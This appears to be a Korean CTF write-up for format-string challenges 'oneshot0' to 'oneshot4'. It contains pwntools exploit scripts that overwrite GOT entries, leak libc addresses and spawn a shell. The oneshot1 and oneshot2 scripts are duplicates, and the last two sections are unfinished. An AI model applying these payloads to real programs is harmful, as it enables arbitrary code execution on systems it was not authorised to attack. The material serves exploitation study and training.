 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2bytes씩 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1

앞 문제와 다르게 system 함수만 주어져 있고 "/bin/sh"는 주어져 있지 않다. printf 함수의 got를 system 함수의 주소로 덮어쓰고 buf에 입력을 받을 때 "/bin/sh"를 입력하면 system("/bin/sh")를 실행할 수 있다. 이때 2번 이상 입력을 받아야 하므로 exit의 got를 main으로 덮어야 단계를 실행할 수 있을 것으로 보인다.  
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

e = ELF('./oneshot2')
p = process(e.path)
libc = e.libc


main = e.symbols['main']
printf_got = e.got['printf']


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff


p.recvuntil(b"\n\n")
payload = f'%{main_high}c'.encode()
payload += b'%10$hn'
payload += f'%{main_low - main_high}c'.encode()
payload += b'%11$hn'
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

#pause()
p.send(payload)


p.recvuntil(b"\n\n")
payload = ''
payload += 'leak:%15$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
#log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

#log.info('\tlibc base '+ hex(libc_base))

system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


#log.info('[3] input : printf@got -> system')


p.recvuntil(b"\n\n")
payload = f'%{low}c'.encode()
payload += b'%11$hn'
payload += f'%{middle}c'.encode()
payload += b'%12$hn'
payload += f'%{high}c'.encode()
payload += b'%13$hn'
payload += b'\x00'*(8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)


#pause()
p.send(payload)

#pause()
p.send(b'/bin/sh\x00')

p.interactive()


```



## oneshot2

system 함수와 "/bin/sh"가 주어져 있지 않으므로 libc_leak을 통해 구해서 풀어야 하는 문제로 보인다.
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

e = ELF('./oneshot2')
p = process(e.path)
libc = e.libc


main = e.symbols['main']
printf_got = e.got['printf']


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff


p.recvuntil(b"\n\n")
payload = f'%{main_high}c'.encode()
payload += b'%10$hn'
payload += f'%{main_low - main_high}c'.encode()
payload += b'%11$hn'
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

#pause()
p.send(payload)


p.recvuntil(b"\n\n")
payload = ''
payload += 'leak:%15$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
#log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

#log.info('\tlibc base '+ hex(libc_base))

system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


#log.info('[3] input : printf@got -> system')


p.recvuntil(b"\n\n")
payload = f'%{low}c'.encode()
payload += b'%11$hn'
payload += f'%{middle}c'.encode()
payload += b'%12$hn'
payload += f'%{high}c'.encode()
payload += b'%13$hn'
payload += b'\x00'*(8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)


#pause()
p.send(payload)

#pause()
p.send(b'/bin/sh\x00')

p.interactive()


```




## oneshot3

exit 함수가 존재하지 않으므로 다른 방식의 fsb를 해야 한다.






## oneshot4

전역변수 buf에 입력을 받는 상황이기 때문에 double-staged fsb를 해야 한다.



```python









```

